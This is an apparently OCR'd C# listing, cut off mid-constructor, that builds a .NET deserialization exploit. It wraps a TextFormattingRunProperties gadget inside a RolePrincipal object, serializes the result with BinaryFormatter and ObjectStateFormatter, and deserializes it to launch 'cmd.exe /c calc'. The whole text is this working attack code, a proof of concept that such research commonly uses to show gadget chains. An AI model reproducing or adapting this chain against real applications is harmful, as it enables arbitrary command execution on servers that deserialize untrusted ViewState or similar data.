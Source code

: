 ```
using System.Windows.Data;
using System.Windows.Markup;

namespace ObjectStateFormatterSerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            TextFormattingRunPropertiesMarshal calc = new TextFormattingRunPropertiesMarshal("calc");
            string b64payload;
            using (MemoryStream m = new MemoryStream())
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(m, calc);
                b64payload = Convert.ToBase64String(m.ToArray());
            }
            RolePrincipalMarshal rolePrincipalMarshal = new RolePrincipalMarshal(b64payload);
            ObjectStateFormatter objectStateFormatter = new ObjectStateFormatter();
            string p = objectStateFormatter.Serialize(rolePrincipalMarshal);
            objectStateFormatter.Deserialize(p);
        }


    }
    [Serializable]
    public class RolePrincipalMarshal : ISerializable
    {
        public RolePrincipalMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(System.Web.Security.RolePrincipal));
            info.AddValue("System.Security.ClaimsPrincipal.Identities", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
```